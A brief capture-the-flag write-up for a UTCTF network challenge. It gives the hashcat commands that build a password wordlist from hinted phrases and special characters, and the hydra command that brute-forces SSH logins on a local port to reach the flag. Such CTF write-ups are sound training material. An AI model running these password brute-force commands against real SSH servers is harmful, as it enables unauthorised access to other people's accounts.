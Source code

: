  # Problem Title Pom Poko Ports
 * **Event:** UTCTF
 * **Problem Type:** Network
 * **(Optional) Tools Required / Used:** hashcat, hydra
 
 ## Steps

 #### Step 1
P1 hints at a username format {first initial}{last name}
p2 hints at users and "abracadabra" as passwords.
Google magic phrases and put them in a wordlist
p2 mentions adding a special character or 2:
   hashcat -a 6 --force customlist.txt ?s?s --stdout > wordlist2.txt
create your list of users
   hashcat -a 6 --force wordlist3.txt ?s --stdout > wordlist.txt
run hydra (on specific port)
   hydra -L users -P wordlist.txt 127.0.0.1 ssh -s 8722
login to ssh
get greated by the flag :)


 #### Step 2
get greated by the flag ¯\_(ツ)_/¯
